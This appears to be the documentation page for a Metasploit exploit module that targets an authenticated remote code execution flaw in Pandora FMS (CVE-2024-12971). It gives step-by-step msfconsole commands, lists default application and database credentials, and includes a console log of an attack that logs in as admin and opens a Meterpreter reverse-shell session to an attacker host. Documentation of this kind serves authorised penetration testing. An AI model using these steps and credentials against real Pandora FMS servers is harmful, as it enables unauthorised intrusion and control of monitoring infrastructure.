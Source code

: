 ## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/linux/http/pandora_fms_auth_rce_cve_2024_12971`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command, 2=Tiny Reverse Netcat Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options

### USERNAME
This option is optional and is the username (default: admin) to authenticate with the Pandora FMS application.

### PASSWORD
This option is optional and is the password (default: pandora) in plain text to authenticate with the Pandora FMS application.

### DB_USER
This option is required and is the username (default: pandora) to authenticate with the Pandora FMS MySQL database.

### DB_PASSWORD
This option is required and is the password (default: Pandor4!) in plain text to authenticate with the Pandora FMS MySQL database.
Note: In older versions, this password is set to `pandora` during installation of the application.

### DB_PORT
This option is required and is the MySQL database port (default: 3306) to connect to the database.

## Scenarios
### Pandora FMS v7.0NG.777 on Ubuntu 22.04 -  PHP Command target
Attack scenario: use the default admin credentials (admin:pandora) of the Pandora FMS application
to gain the privileges for the RCE.
```msf
msf6 > use exploits/linux/http/pandora_fms_auth_rce_cve_2024_12971
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Found chromium_path RCE. Pandora FMS version v7.0NG.777
[*] Trying to log in with admin credentials admin:pandora at the Pandora FMS Web application.
[*] Succesfully authenticated at the Pandora FMS Web application.
[*] Saving admin credentials at the msf database.
[*] Executing PHP Command for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.6
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:51714) at 2025-04-05 11:30:11 +0000
[+] Payload is successful removed from chromium_path path configuration.

```